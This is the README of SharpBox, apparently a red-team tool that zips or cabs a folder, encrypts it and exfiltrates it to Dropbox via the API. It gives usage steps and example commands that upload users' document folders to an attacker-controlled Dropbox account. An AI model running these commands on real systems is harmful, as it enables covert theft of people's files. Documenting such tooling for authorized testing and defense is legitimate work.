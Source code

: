 # SharpBox
SharpBox is a C# tool for compressing, encrypting, and exfiltrating data to Dropbox using the Dropbox API. 

## Compiling
Target Framework: NET3.5

The libraries added via NuGet for this project were:

**-CommandLineParser.1.9.71**

**-Costura.Fody.1.6.2**

**-DotNetZip.1.11.0**

**-Fody.2.1.2**

**-MSFTCompressionCab.1.0.0**

## Usage
Log into your Dropbox account and head over to the [Dropbox developer API explorer](https://dropbox.github.io/dropbox-api-v2-explorer/#auth_token/from_oauth1) page and get an oauth access token by clicking "Get Token".
These access tokens do not expire, but you can revoke them.  So I would recommend revoking tokens after being used on engagments.

Example:

```
SharpBox.exe -f "C:\Users\LegendaryJasonJF\Documents\management-docs" -t "DROPBOX-OATH-ACCESS-TOKEN-HERE"

SharpBox.exe -f "C:\Users\Meatball\Documents\rip-docs" -t "DROPBOX-OATH-ACCESS-TOKEN-HERE" -c "Cab"
```

SharpBox can Cab or Zip a folder of items.  Zip is the default compression method.  Cabbing tends to compress into smaller files than zip, but has a maximum limit of 2GB.  The compressed file is then encrypted with a randomly generated password and uploaded to Dropbox.  The password is output to the console.  Copy the password and use with the "password" argument when decrypting. 

```
SharpBox 1.0.0
Copyright c  2018 Pickles
Usage: SharpBox <options>

      -f, --path                   Required. path to the folder you wish to
                                   compress the contents of

      -o, --OutFile                Name of the compressed file

      -t, --dbxToken               Dropbox Access Token

      -h, --dbxPath                (Default: /test/data) path to dbx folder

      -c, --compression            (Default: Zip) this option lets you choose to
                                   zip or cab the folder

      -d, --decrypt                (Default: False) Choose this to decrypt a zip or
                                   cabbed file previously encrypted by this tool.
                                   Requires original password argument.

      -p, --decryption-password    Password to decrypt a zipped or cabbed file.

      --help                       Display this help screen.
  ```
  
  
  Once the compressed/encrypted file is downloaded from Dropbox, you can use this tool to decrypt it as well. 
  
  Example: 
  
  ```
  SharpBox.exe -f "C:\Users\evilDude\Desktop\data" -o "decrypted-data.zip" -p "RandomlyGeneratedPassword" -d
  ```
  
  
